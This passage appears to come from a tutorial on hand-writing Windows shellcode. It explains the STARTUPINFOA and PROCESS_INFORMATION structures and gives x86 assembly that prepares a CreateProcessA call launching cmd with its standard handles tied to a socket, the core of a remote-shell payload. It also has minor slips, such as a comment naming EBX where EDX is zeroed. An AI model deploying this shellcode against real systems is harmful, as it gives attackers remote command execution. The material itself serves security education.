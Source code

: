 * [`wShowWindow`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=with%20STARTF_USEHOTKEY.-,wShowWindow,-If%20dwFlags%20specifies): Specifies the STARTF_USESHOWWINDOW parameter, can show any value from nCmdShow parameter of the [ShowWindow](https://learn.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-showwindow) function, otherwise it is ignored. (NULL).
* [`cbReserved2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=set%20to%20SW_SHOWDEFAULT.-,cbReserved2,-Reserved%20for%20use): Reserved must be zero (NULL).
* [`lpReserved2`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=must%20be%20zero.-,lpReserved2,-Reserved%20for%20use): Reserved must be NULL (NULL).
* [`hStdInput`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=must%20be%20NULL.-,hStdInput,-If%20dwFlags%20specifies): Specifies handle to use for stdin.
* [`hStdOutput`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=member%20is%20ignored.-,hStdOutput,-If%20dwFlags%20specifies): Specifies handle to use for stdout.
* [`hStdError`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa#:~:text=Windows%20Server%C2%A02012.-,hStdError,-If%20dwFlags%20specifies): Specifies handle to use for stderr.


The [`_PROCESS_INFORMATION`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information) structure definition is shown below:
```
typedef struct _PROCESS_INFORMATION {
  HANDLE hProcess;
  HANDLE hThread;
  DWORD  dwProcessId;
  DWORD  dwThreadId;
} PROCESS_INFORMATION, *PPROCESS_INFORMATION, *LPPROCESS_INFORMATION;
```
* [`hProcess`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=Members-,hProcess,-A%20handle%20to): Handel to newly created process.
* [`hThread`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=the%20process%20object.-,hThread,-A%20handle%20to): Handel to primary thread of the newly created process.
* [`dwProcessId`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=the%20thread%20object.-,dwProcessId,-A%20value%20that): Process ID that uniquely identifies the process.
* [`dwThreadId`](https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process_information#:~:text=may%20be%20reused.-,dwThreadId,-A%20value%20that): Thread ID, used to uniquely identify a thread. Once a thread exits the ID may be reused.  
> Since this structure is only used to contain information returned by the `CreateProcessA(...)` call, we can have all values set to NULL when we create it on the stack.


The following is the assembly for our call to `CreateProcessA(...)`:
```
mov ebx,0x646d6341      ; Move 'cmda' to EBX. The trailing 'a' is to avoid
                        ; injecting null bytes.
shr ebx,0x8             ; Make EBX = 'cmd\x00'
push ebx                ; Push application name
mov ecx,esp             ; Make ECX a pointer to the 'cmd' command
                        ; ('lpCommandLine' parameter)

; Now fill the `_STARTUPINFOA` structure
xor edx,edx             ; Zero out EBX
push esi                ; hStdError = our socket handler
push esi                ; hStdOutput = our socket handler
push esi                ; hStdInput = our socket handler
push edx                ; cbReserved2 = NULL
push edx                ; wShowWindow = NULL
xor eax, eax            ; Zero out EAX
mov ax,0x0101           ; dwFlags = STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW
```
